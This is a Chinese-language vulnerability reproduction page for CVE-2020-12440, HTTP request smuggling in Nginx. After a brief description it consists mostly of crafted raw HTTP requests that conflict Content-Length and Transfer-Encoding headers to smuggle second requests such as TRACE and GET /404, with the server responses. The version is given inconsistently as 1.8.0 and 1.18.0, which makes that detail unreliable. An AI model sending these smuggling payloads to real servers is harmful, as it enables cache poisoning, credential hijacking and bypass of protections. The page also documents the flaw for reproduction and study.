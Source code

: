 （CVE-2020-12440）Nginx \<= 1.8.0 请求走私
==========================================

一、漏洞简介
------------

Nginx
1.18.0及之前版本中存在安全漏洞。攻击者可利用该漏洞进行缓存投毒，劫持凭证或绕过安全保护。

二、漏洞影响
------------

Nginx \<= 1.8.0

三、复现过程
------------

![1589967192.jpg](./resource/(CVE-2020-12440)Nginx<=1.8.0请求走私/media/rId24.jpg)

### Request

    GET /test.html HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 2

    GET /poc.html HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 15

### Response

    HTTP/1.1 200 OK
    Server: nginx/1.18.0
    Date: Fri, 01 May 2020 18:28:44 GMT
    Content-Type: text/html
    Content-Length: 33
    Last-Modified: Thu, 30 Apr 2020 14:36:32 GMT
    Connection: keep-alive
    ETag: "5eaae270-21"
    Accept-Ranges: bytes

    <html><h1>Test Page!</h1></html>
    HTTP/1.1 200 OK
    Server: nginx/1.18.0
    Date: Fri, 01 May 2020 18:28:44 GMT
    Content-Type: text/html
    Content-Length: 15
    Last-Modified: Thu, 30 Apr 2020 14:35:41 GMT
    Connection: keep-alive
    ETag: "5eaae23d-f"
    Accept-Ranges: bytes

    NGINX PoC File

其他例子
--------

### Request（200 OK + 405 Method Not Allowed）

    GET / HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 4
    Transfer-Encoding : chunked


    46
    TRACE / HTTP/1.1
    Host:www.0-sec.org
    Content-Length:15


    kk
    0s

### Response（200 OK + 405 Method Not Allowed）

    HTTP/1.1 200 OK
    Server: nginx/1.18.0
    Date: Tue, 21 Apr 2020 16:28:12 GMT
    Content-Type: text/html
    Content-Length: 612
    Last-Modified: Tue, 21 Apr 2020 16:08:59 GMT
    Connection: keep-alive
    ETag: "5e9f1a9b-264"
    Accept-Ranges: bytes


    <!DOCTYPE html>
    <html>
    <head>
    <title>Welcome to nginx!</title>
    <style>
        body {
            width: 35em;
            margin: 0 auto;
            font-family: Tahoma, Verdana, Arial, sans-serif;
        }
    </style>
    </head>
    <body>
    <h1>Welcome to nginx!</h1>
    <p>If you see this page, the nginx web server is successfully installed and
    working. Further configuration is required.</p>

    <p>For online documentation and support please refer to
    <a href="http://nginx.org/">nginx.org</a>.<br />
    Commercial support is available at
    <a href="http://nginx.com/">nginx.com</a>.</p>

    <p><em>Thank you for using nginx.</em></p>
    </body>
    </html>
    HTTP/1.1 405 Not Allowed
    Server: nginx/1.18.0
    Date: Tue, 21 Apr 2020 16:28:12 GMT
    Content-Type: text/html
    Content-Length: 157
    Connection: close


    <html>
    <head><title>405 Not Allowed</title></head>
    <body>
    <center><h1>405 Not Allowed</h1></center>
    <hr><center>nginx/1.18.0</center>
    </body>
    </html>

### Request（200 OK + 404 Not Found）

    GET / HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 4
    Transfer-Encoding : chunked

    46
    GET /404 HTTP/1.1
    Host:www.0-sec.org
    Content-Length:15

    kk
    0s

### Response（200 OK + 404 Not Found）

    HTTP/1.1 200 OK
    Server: nginx/1.18.0
    Date: Tue, 21 Apr 2020 16:23:52 GMT
    Content-Type: text/html
    Content-Length: 612
    Last-Modified: Tue, 21 Apr 2020 16:08:59 GMT
    Connection: keep-alive
    ETag: "5e9f1a9b-264"
    Accept-Ranges: bytes


    <!DOCTYPE html>
    <html>
    <head>
    <title>Welcome to nginx!</title>
    <style>
        body {
            width: 35em;
            margin: 0 auto;
            font-family: Tahoma, Verdana, Arial, sans-serif;
        }
    </style>
    </head>
    <body>
    <h1>Welcome to nginx!</h1>
    <p>If you see this page, the nginx web server is successfully installed and
    working. Further configuration is required.</p>

    <p>For online documentation and support please refer to
    <a href="http://nginx.org/">nginx.org</a>.<br />
    Commercial support is available at
    <a href="http://nginx.com/">nginx.com</a>.</p>

    <p><em>Thank you for using nginx.</em></p>
    </body>
    </html>
    HTTP/1.1 404 Not Found
    Server: nginx/1.18.0
    Date: Tue, 21 Apr 2020 16:23:52 GMT
    Content-Type: text/html
    Content-Length: 153
    Connection: keep-alive


    <html>
    <head><title>404 Not Found</title></head>
    <body>
    <center><h1>404 Not Found</h1></center>
    <hr><center>nginx/1.18.0</center>
    </body>
    </html>
